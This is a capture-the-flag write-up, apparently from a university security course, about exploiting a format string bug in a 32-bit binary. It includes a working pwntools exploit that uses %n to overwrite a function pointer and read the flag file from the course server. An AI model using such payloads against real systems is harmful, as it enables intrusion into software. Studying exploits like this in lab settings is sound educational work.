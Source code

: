 # Format Strings: CTF #6

## Checksec

```
Arch:       i386-32-little
RELRO:      No RELRO
Stack:      Canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x8048000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
Debuginfo:  Yes
```

From the checksec output, we can exploit the stack being executable and writeable.

## Source code analysis

- The file `rules.txt` is read when called by `readtxt()`.
- All auxiliary functions are called via the function pointer `fun`.
  By modifying `fun` to the address of `readtxt()` and pointing the first argument to a user provided string, it is possible to read the contents of any file inside the server.
- There is a format string vulnerability in the `printf()` call at line 33, because no arguments are provided to the format string, so it will use the next value in the stack as the argument, which we have control of.

## Objective

Modify the function pointer `fun` to the address of `readtxt()` and point the first argument to the string `flag` using the format string vulnerability inside the `printf()` call at line 33, so that in line 35 the flag is printed instead of our input.

## Vulnerability exploration

- For this exploit, it is necessary to know the address of the `readtxt()` function, which is `0x80497a5` according to the output of `gdb`:

  ```bash
  $ gdb program
  [...]
  gdb-peda$ p readtxt
  $1 = {int (char *)} 0x80497a5 <readtxt>
  ```

Having this in mind, here is how the payload and the exploit script are built:

- `./flag` as an argument to the `readtxt()` function.
  Note that 6 bytes are needed to redirect to a valid file in the `cat` command; using just `flag` would be trickier because the rest of the payload would interfere with the file name.
- `\x01\x01` to align the payload as 8 bytes chunks; the content itself is irrelevant.
- `fun` as the encoded address of the `readtxt()` function.
  These 4 bytes are asked to be submitted in the script, but encoded. For example, if the `fun` address is `0xffa5e670`, do:
  1. Convert the address to little-endian: `0x70, 0xe6, 0xa5, 0xff`.
  2. Convert the bytes to their ASCII representation: `pæ¥ÿ`.
     A (Hex to ASCII converter)[https://www.rapidtables.com/convert/number/hex-to-ascii.html] is perfect for this.
  3. Paste the string in the stdin.
- `%4x` and `%134518673x` to move the stack pointer to the `fun` portion of the payload and to print the correct number of characters for the `n` specifier.
- `%n` to write the address of `readtxt()` to the `fun` pointer.

The exploit script is as follows:

```python
#!/usr/bin/python3
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4005)
#r = process('./program')
context(arch='i386')

res = r.recvuntil(b"flag:\n")
print(res)

# Payload ============================================
fun = input("Fun pointer: ")
s = "./flag\x01\x01" + fun + "%4x" + "%134518673x" + "%n"
print(s)
payload = (s).encode('latin-1')
# ====================================================

r.sendline(payload)
buf = r.recvall().decode(errors="backslashreplace")
print(buf)
```

Executing the script, results in obtaining the flag as follows:

```bash
$ python3 exploit.py
[/.......] Opening connection to ctf-fsi.fe.up.pt on port 4005: Trying
[+] Opening connection to ctf-fsi.fe.up.pt on port 4005: Done
b'Read the rules.\nRunning command cat rules.txt\nI will give you an hint: ffa5e670\nTry to unlock the flag:\n'
Fun pointer: pæ¥ÿ
./flag\x01\x01pæ¥ÿ%4x%134518673x%n
[+] Receiving all data: Done (128.29MB)
[*] Closed connection to ctf-fsi.fe.up.pt port 4005
[...]
flag{L34k1ng_Fl4g_0ff_Th3_St4ck_44789C2D}
[...]
1016761Calling function at 80497a5 134518693
Running command cat ./flag.txt
```
